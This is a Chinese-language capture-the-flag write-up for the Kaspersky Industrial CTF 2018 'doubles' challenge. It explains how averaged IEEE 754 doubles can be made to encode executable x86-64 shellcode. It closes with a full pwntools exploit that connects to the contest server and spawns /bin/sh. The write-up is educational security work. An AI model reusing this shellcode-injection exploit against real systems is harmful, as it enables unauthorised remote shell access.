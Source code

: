 Kaspersky Industrial CTF 2018 writeup - doubles
===

### 觀察
一如往常的起手式 F5 後，迅速發現這又是個有趣的 shellcode 練習題，把 code 整理一下
```cpp
void f()
{
  double *buf; 
  int v1; 
  unsigned int i; 
  double input_cnt; 
  double total; 

  alarm(0xAu);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  buf = (double *)mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  if ( !buf )
  {
    fwrite("something is wrong, tell admin\n", 0x1FuLL, 1uLL, stderr);
    _exit(1);
  }
  fwrite("n: ", 3uLL, 1uLL, stdout);
  v1 = __isoc99_scanf("%u", &input_cnt);
  _IO_getc(stdin);
  if ( v1 != 1 )
    _exit(2);
  if ( input_cnt < 7 )
  {
    if ( !input_cnt )
    {
      total = 0.0;
      input_cnt = 0.0;
      goto LABEL_10;
    }
  }
  else
  {
    input_cnt = 6;
  }
  total = 0.0;
  i = 0;
  for (int i = 0; i < input_cnt; i++) {
    scanf("%lf", &buf[i]);
    _IO_getc(stdin);
    total += buf[i];
  }
LABEL_10:
  buf[14] = -6.828527034440643e-229; // 0x909090909090C031 = xor eax, eax nop nop nop nop nop nop
  buf[15] = total / input_cnt;
  JUMPOUT(__CS__, buf + 14); // jmp &buf[14]
}
```
不難看出題目可以讓使用者輸入 n 個 double，其中 0 <= n < 7，將所有輸入的 double 取平均後放到 buf[15]，接著 `jmp &buf[14]` 執行預寫好的 shellcode 和剛剛的平均數... 

### 想法
這題一眼看上去似乎很難操作，最主要的困難是 -- 該怎麼控制輸入的 double 讓他們在被取平均後仍然是一段可以執行的 shellcode，畢竟浮點數常常會出現做完除法後不精確或是輸入時就出現誤差的情況發生，其次是要怎麼在 8 byte 內完成一個 shell。

第二個問題比較容易，做法是想辦法跳回前面輸入的 buffer 上就有最多 6*8 byte 可以使用，而第一個問題卡了我一個小時，直到我赫然發現我可以簡單的確保那些輸入的 double 不會在操作時壞掉，為此必須先了解 IEEE 754 的規範。

以下取自 wiki [IEEE 754](https://zh.wikipedia.org/wiki/IEEE_754)

![](https://i.imgur.com/Qq6La1b.png)

再來下面是從 IEEE 754 格式轉換成小數的方式

<img src="https://latex.codecogs.com/gif.latex?Value%20%3D%20sign%20%5Ctimes%202%5E%7Bexponent-1023%7D%20%5Ctimes%201.fraction" />

有一個很直覺的想法是，如果可以保證我們在操作 double 時就像是在操作 integer，那題目就會被轉換成一個小學數學問題，那要怎麼做呢?
我想到的方法是讓每個輸入的 double 的 exponent 位都是 1023+52 = 1075，因為這樣會使得 <img src="https://latex.codecogs.com/gif.latex?2%5E%7Bexponent-1023%7D%20%5Ctimes%201.fraction" /> 中小數點會被向右位移 52 次，也就是這樣做可以保證每個產出的 double 小數點下都為 0 
(<img src="https://latex.codecogs.com/gif.latex?fraction" /> 只有 52 位長)。實作的方式就是設定每個 double 的最高位和第二高位依序為`\x43`跟`\x30`，這樣就可以開始 exploit 了。

### Exploitation

exploit 的方式是在輸入時寫入五個包含 shellcode 的 double，彼此之間利用 jmp 跳過 `\x30\x43`，接著用數學計算第六個 double 讓最後的平均值等於所需要的 shellcode 即可。

聽起來很容易，不過實際上限制不少，為了確保每個 double 都是以整數運算以及必要的 jmp 指令，再扣掉最後一個調整用的 double，可使用的 shellcode 空間只有 (8-2-2)*(6+1-1) = 24byte，同時每個指令的大小不能超過 4byte，不過就算限制如此嚴峻，我還是強擠了一個能用的 shellcode 出來XD 
(當然是各種嘗試失敗之後)
```python
#!/usr/bin/env python2
from pwn import *
import struct

r = remote('doubles.2018.ctf.kaspersky.com', 10001)

context.arch = 'amd64'

# \x30\x43 here is to make the exponent of double equal (1023 + 52)
# also, 52 is used to ensure every double equal to some integer

# adjust rsp to bss
sc1 = asm('mov sp, 0x601f') + '\xeb\x82' + '\x30\x43'


# read(0, rsp, 0x42) => (rax == 0x42) => xor ah, 0x01 => (rax == 0x142) => execveat(0, rsp, NULL, NULL, 0)
sc2 = asm('''
    shl rsp, 8
    jmp A
    nop
    nop
    A:
    push 0x42
    pop rdx
    nop
    jmp B
    nop
    nop
    B:
    mov rsi, rsp
    nop
    jmp C
    nop
    nop
    C:
    syscall
    xor edx, edx
    jmp D
    nop
    nop
    D:
    xor ah, 0x01
    syscall
    pop rax
    nop
    nop
''')

print repr(sc1)
print disasm(sc1)
print repr(sc2)
print disasm(sc2)

sc2 = sc2.replace('\x90\x90','\x30\x43')

total = 0.0
d = 0.0
ans = []

for i in range(len(sc2)/8):
    d = struct.unpack('d', sc2[i*8:(i+1)*8])[0]
    ans.append(format(d, '.5f'))
    total += d

# calc 6th double to adjust mean to sc1
d = struct.unpack('d', sc1)[0]
ans.append(format(d*6 - total, '.5f'))

r.sendlineafter('n: ', '6')
for s in ans:
    r.sendline(s)

r.send('/bin/sh'.ljust(0x42, '\x00'))
r.interactive()
```

